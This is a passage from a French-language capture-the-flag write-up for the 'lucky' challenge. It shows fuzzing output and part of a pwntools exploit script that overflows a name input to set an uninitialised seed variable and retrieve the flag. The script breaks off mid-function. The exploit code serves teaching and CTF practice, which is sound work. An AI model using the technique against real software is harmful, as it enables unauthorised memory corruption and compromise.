 Et voici le résultat :

```bash
root@DESKTOP-HNQJECB: /c/lucky_writeup
➜   python3 lucky_solve.py
Payload= B | len= 1 | resp= 0x0
Payload= BA | len= 2 | resp= 0x0
Payload= BAA | len= 3 | resp= 0x0
Payload= BAAA | len= 4 | resp= 0x0
Payload= BAAAA | len= 5 | resp= 0x0
Payload= BAAAAA | len= 6 | resp= 0x0
Payload= BAAAAAA | len= 7 | resp= 0x0
Payload= BAAAAAAA | len= 8 | resp= 0x0
Payload= BAAAAAAAA | len= 9 | resp= 0x0
Payload= BAAAAAAAAA | len= 10 | resp= 0x0
Payload= BAAAAAAAAAA | len= 11 | resp= 0x0
Payload= BAAAAAAAAAAA | len= 12 | resp= 0xa
Payload= BAAAAAAAAAAAA | len= 13 | resp= 0xa41
Payload= BAAAAAAAAAAAAA | len= 14 | resp= 0xa4141
Payload= BAAAAAAAAAAAAAA | len= 15 | resp= 0x414141
Payload= BAAAAAAAAAAAAAAA | len= 16 | resp= 0x414141
```

On peut donc écrire directement sur la mémoire et celle-ci est récupéré dans **seed** avec
```C
int lol;
return lol;
```


Nous pouvons donc écrire notre exploit final pour inscrire **5649426** en hexadécimal dans la mémoire et obtenir le flag !

```python
from pwn import *

context.log_level = 'critical'

def getproc():
	if(args.REMOTE):
		return remote("tamuctf.com", 443, ssl=True, sni="lucky")
	else:
		return process('./lucky')

def getseed():
	# p = process('./getseed')
	# seed = p.recv().decode().strip()
	# p.close()
	# return seed
	return '5649426'
	# 	valid seed = '5649426'


def fuzz():
	for k in range(16):
		proc = getproc()
		proc.recvuntil(b'Enter your name:')
		payload = b'B'+(k)*b'A'
		proc.sendline(payload)
		proc.recvuntil(b'GLHF :D')
		rep = proc.recv().decode().split('Looks')[0].strip()
		print('Payload= %s | len= %s | resp= %s'%(payload.decode(),len(payload),hex(int(rep))))
	return None

def getpayload(seed_hex):
	payload = b''
	reverse =  [seed_hex[i:i+2] for i in range(0, len(seed_hex), 2)][::-1][:-1]
```